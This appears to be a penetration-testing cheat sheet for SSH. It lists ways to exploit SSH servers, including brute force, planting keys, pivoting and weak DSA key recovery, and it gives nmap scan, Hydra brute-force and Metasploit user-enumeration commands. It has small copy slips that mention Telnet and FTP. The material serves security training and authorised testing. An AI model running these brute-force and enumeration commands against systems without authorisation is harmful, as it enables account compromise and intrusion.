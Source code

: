 # 22 - SSH

## Theory

The Secure Shell (SSH) protocol is a method for securely sending commands to a computer over an unsecured network. SSH uses cryptography to authenticate and encrypt connections between devices.

### Exploitation Scenarios

An SSH server can be exploited in different ways; here are the common scenarios that you should be looking for

* Credentials brute‐force (this is our main target during the enumeration phase).
* Appending a public key to the authorized\_keys file on the server (but you will need a shell to be able to write into that file; in other words, you will need to have access to the host first).
* SSH can be used to pivot to another host on the network. This can be achieved if one host is compromised and the attacker has access to the public and private keys on the victim's host (pivoting is a post‐exploitation task).
* Find a public exploit associated with the target Telnet server version.
* If the attacker can read the authorized\_keys file of a DSA (not RSA) algorithm, then the attacker can use the public generated private keys and try to match it to the public key inside the authorized\_keys file. (You will need a remote shell first or to read the file using the “local file inclusion” vulnerability of a web application. Once the attacker knows the private key associated with that public key, then the attacker can use the following command:

```
ssh -i [private key file] [user@ftp_server_ip]
```



***

## Practical

### Nmap NSE Scan

```
nmap ‐sV ‐O ‐sC ‐p22 ‐T5 <IP>
```

```
nmap ‐sV ‐O ‐‐script=ssh* ‐p22 ‐T5 <IP>
```

### Brute Force

#### Hydra

```
hydra ‐t 10 ‐L <User List> ‐P <Password List> ssh://<IP>
```

```
hydra ‐t 10 ‐e nsr ‐L <User List> ‐P <Password List> ssh://<IP>
```

* "n" stands for null password (the password is empty).
* "s" stands for log in as password (username=password).
* "r" stands for reversed login (e.g., if the username is root, then the password will be toor).

#### Metasploit

_**Username Enumeration:**_

```
msfconsole

use auxiliary/scanner/ssh/ssh_enumusers

set RHOSTS <IP>

set USER_FILE <path to wordlist>

set RPORT 22

set THREADS 25

run
```



***

## REFERENCES

* [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)
* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)
* [https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh\_enumusers/](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh\_enumusers/)
